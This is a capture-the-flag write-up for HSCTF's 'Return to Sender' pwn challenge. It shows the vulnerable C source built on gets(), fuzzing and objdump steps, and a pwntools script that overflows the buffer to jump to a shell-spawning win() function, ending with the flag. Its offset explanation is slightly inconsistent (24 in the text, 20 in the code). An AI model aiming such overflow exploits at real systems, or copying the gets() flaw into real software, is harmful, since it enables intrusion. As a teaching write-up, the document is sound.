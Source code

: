 # Return to Sender

## Challenge

"Who knew the USPS could lose a letter so many times?

nc pwn.hsctf.com 1234

6/3/19 7:34 AM: Updated binary, SHA-1: 104fb76c3318fb44130c4a8ee50ac1a2f52d4082 return-to-sender"

You can download the problem files here [return-to-sender](return-to-sender) [return-to-sender.c](return-to-sender.c)

## Process

Return to sender is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void win() {
	system("/bin/sh");
}

void vuln() {
	char dest[8];
	printf("Where are you sending your mail to today? ");
	gets(dest);
	printf("Alright, to %s it goes!\n", dest);
}

int main() {
	setbuf(stdout, NULL);
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	vuln();
	return 0;	
}
```

I immediately noticed the line

```
	gets(dest);
```

which is vulnerable to a buffer overflow attack. I also noticed

```
void win() {
	system("/bin/sh");
}
```

This tells us that we want to jump into the function win(). I ran gbd on the file and supplied more than enough characters to cause errors. I inputted letters in groups of four alphabetically to make it easier to determine how large of an offset I'll need in my exploit script. 

![Fuzzing the file](Fuzz.JPG)

0x46464646 overflowed into the stack pointer. 0x46 in hexadecimal is the letter "F" in ascii. That means 24 characters will cause a bufferoverflow, and the last four characters will overwrite the stack pointer.

I than ran an object dump on the given elf file to find the address of the function win(). You can look at the entire dump here [objectdump-d.txt](objectdump-d.txt).

```
$ objdump -d return-to-sender > objectdump-d.txt
```

The important part of the dump is the address of win, which is 0x080491b6

```
080491b6 <win>:
 80491b6:	55                   	push   %ebp
 80491b7:	89 e5                	mov    %esp,%ebp
 80491b9:	53                   	push   %ebx
 80491ba:	83 ec 04             	sub    $0x4,%esp
 80491bd:	e8 d1 00 00 00       	call   8049293 
```

I wrote this python script to perform the bufferoverflow [payloader.py](payloader.py) and ran it. Afterwards I ran ls and cat to get the flag.

```
from pwn import * 
connection = remote('pwn.hsctf.com', 1234)
#through fuzzing we found buffer
offset = 20
#through objdump -d we found the address of win as 0x080491b6
#0x080491e1 is address of vuln 
address = p32(0x080491b6)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
#after performing the buffer overflow we still need to cat the flag
connection.interactive()

#The flag is hsctf{fedex_dont_fail_me_now}
```

![Flag](Flag.JPG)

The flag is hsctf{fedex_dont_fail_me_now}